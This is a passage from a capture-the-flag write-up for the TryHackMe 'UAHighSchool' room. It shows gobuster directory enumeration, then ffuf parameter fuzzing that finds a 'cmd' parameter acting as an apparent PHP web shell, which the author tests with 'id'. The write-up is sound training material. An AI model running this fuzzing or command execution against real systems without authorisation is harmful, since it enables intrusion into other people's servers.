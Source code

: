 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 0]
/images               (Status: 301) [Size: 322] [--> http://10.10.232.105/assets/images/]
```

## Shell as www-data

The response size of the `index.php` file caught my attention, so I attempted to enumerate possible parameters using ffuf:
```bash
kali@kali:~/ctf/uahighschool$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.10.232.105/assets/index.php?FUZZ=id' -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.251.140/assets/index.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 41ms]
```

Fuff found an interesting parameter, which appeared to be a potential PHP shell. I tested it by running the `id` command using Burp Suite:

![RCE](/assets/img/tryhackme/UAHighSchool/thm_uahighschool_1.jpg)
